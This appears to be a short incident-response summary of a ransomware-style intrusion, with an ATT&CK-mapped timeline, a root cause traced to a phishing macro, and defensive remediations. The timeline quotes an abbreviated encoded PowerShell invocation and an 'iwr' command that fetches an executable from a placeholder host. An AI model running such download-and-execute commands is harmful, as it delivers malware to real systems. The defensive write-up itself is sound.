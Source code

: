 | Time | Event | Artifact | ATT&CK |
|---|---|---|---|
| 14:03 | Encoded PowerShell | -enc JABQ... | T1059.001 |
| 14:04 | Fetch payload | iwr http://x/p.exe | T1105 |
| 14:06 | Mass file writes | .lock files | T1486 |


**Root cause:** User executed malicious attachment from phishing email (macro). Missing ASR rule for Office child processes.


**Remediations:** Enable ASR `Block Office from creating child processes`, enforce Script Block Logging, EDR network containment.
